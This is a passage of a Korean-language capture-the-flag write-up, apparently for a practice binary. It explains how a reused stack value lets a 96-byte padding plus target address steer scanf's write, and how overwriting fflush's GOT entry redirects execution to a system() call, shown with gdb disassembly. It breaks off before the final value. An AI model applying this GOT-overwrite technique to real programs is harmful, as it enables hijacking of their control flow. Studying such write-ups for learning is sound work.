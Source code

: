 디스어셈블 내용을 토대로 스택을 비교하면 다음과 같다. 두개의 함수에서 EBP 값은 서로 같다.

![image](https://user-images.githubusercontent.com/33647663/168528775-b40e9a5c-2dfe-4eb8-b24e-225e936d85d1.png)

그림을 보면 알겠지만, Name[100]에서 작성된 마지막 4byte에 쓰여진 내용이 재사용되어 login()함수에서 입력되는 값의 주소가 되는 것을 볼 수있다.

따라서 Name[100]에 다음과 같이 작성하면 된다.

```md
dummy[96] + "내가 변경하고 싶은 메모리 주소 4byte"
```

이렇게 설정해 주면 scanf에서 입력된 값이 ```내가 변경하고 싶은 메모리 주소```에 값을 저장하게 된다.

그러면 이제 1) 어떠한 주소에 2) 어떠한 값을 넣어야 할 지 생각해 봐야한다.


### PLT,GOT
login함수 내에서 scanf를 수행하고나서 fflush의 plt를 참조하여 got 테이블로 외부 라이브러리에서 실제 fflush 함수의 주소를 받아온다. 이를 이용해서 fflush의 got를 변경하여 fflush 함수가 아닌 다른 곳으로 프로그램의 수행을 변경시킨다.

```sh
   0x0804857c <+24>:    mov    edx,DWORD PTR [ebp-0x10]
   0x0804857f <+27>:    mov    DWORD PTR [esp+0x4],edx
   0x08048583 <+31>:    mov    DWORD PTR [esp],eax
   0x08048586 <+34>:    call   0x80484a0 <__isoc99_scanf@plt>
   0x0804858b <+39>:    mov    eax,ds:0x804a02c
   0x08048590 <+44>:    mov    DWORD PTR [esp],eax
   0x08048593 <+47>:    call   0x8048430 <fflush@plt>
```

fflush@plt를 수행하는 0x08048430부분을 보면 다음과 같다.
0x804a004에 저장된 값으로 jmp를 시도하고 있다. 여기서 0x804a0040가 fflush의 got이다. 

```sh
gdb-peda$ x/4i 0x8048430
   0x8048430 <fflush@plt>:      jmp    DWORD PTR ds:0x804a004
   0x8048436 <fflush@plt+6>:    push   0x8
   0x804843b <fflush@plt+11>:   jmp    0x8048410
   0x8048440 <__stack_chk_fail@plt>:    jmp    DWORD PTR ds:0x804a008
```

아직 프로그램을 시작하기 전이기 때문에 got 테이블의 값을 출력해보면 0x8048436이다. 이는 fflush@plt+6 이다.

```sh
gdb-peda$ x/xw 0x804a004
0x804a004 <fflush@got.plt>:     0x08048436
```

즉 원래라면 fflush@plt를 처음 수행하면 got 테이블(0x804a004)에 저장된 plt+6(0x8048436) 으로 이동하여 수행이 계속된다.

하지만 이를 내가 원하는 곳으로 바꿔서 프로그램 흐름을 바꿀 수 있다.

login 함수의 디스어셈블코드를 다시 보자. 그 중 +127부분을 보면 다음과 같다.

```sh
   0x080485e3 <+127>:   mov    DWORD PTR [esp],0x80487af
   0x080485ea <+134>:   call   0x8048460 <system@plt>
```
